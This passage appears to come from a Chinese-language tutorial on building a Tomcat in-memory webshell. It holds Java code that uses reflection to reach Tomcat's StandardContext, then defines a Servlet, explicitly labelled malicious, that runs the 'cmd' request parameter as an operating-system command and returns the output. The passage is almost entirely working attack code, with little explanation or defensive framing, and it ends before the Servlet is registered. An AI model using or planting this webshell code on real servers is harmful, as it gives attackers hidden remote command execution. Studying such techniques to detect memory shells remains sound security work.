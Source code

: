 ```
ServletContext servletContext = req.getServletContext();
if (servletContext.getServletRegistration(name) == null) {
    StandardContext standardContext = null;

    while (standardContext == null) {

        Field field = servletContext.getClass().getDeclaredField("context");
        field.setAccessible(true);
        Object object = field.get(servletContext);

        if (object instanceof ServletContext) {
            servletContext = (ServletContext) object;
        } else if (object instanceof StandardContext) {
            standardContext = (StandardContext) object;
        }
    }
    
}
```

接下来创建一个恶意的Servlet

```
Servlet servlet = new Servlet() {
    @Override
    public void init(ServletConfig servletConfig) throws ServletException {

    }

    @Override
    public ServletConfig getServletConfig() {
        return null;
    }

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
        try {
            if (servletRequest.getParameter("cmd") != null) {
                Process process = Runtime.getRuntime().exec(servletRequest.getParameter("cmd"));
                InputStream inputStream = process.getInputStream();
                InputStreamReader inputStreamReader = new InputStreamReader(inputStream);
                BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    servletResponse.getWriter().println(line);
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getServletInfo() {
        return null;
    }

    @Override
    public void destroy() {

    }
};
```
